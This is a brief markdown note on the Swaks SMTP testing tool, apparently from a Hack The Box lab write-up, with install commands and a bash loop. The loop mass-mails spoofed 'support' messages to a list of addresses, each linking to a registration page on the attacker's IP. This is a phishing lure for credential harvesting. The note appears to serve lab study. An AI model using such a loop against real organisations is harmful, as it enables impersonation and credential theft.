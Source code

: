 # Swaks - Swiss Army Knife for SMTP
Swaks is a featureful, flexible, scriptable, transaction-oriented SMTP test tool \
https://github.com/jetmore/swaks
# Instalation
## MacOS
    brew install swaks
## Debian
    apt install swaks

# Example script to send email to a list of addresses
    while read email; do
      echo "[+] Sending email from $email"
        swaks --from support@sneakymailer.htb --to $email --header 'Subject: Register in the portal' --body 'http://10.10.14.129/pypi/register.php' --server sneakycorp.htb >/dev/null
    done < emails.txt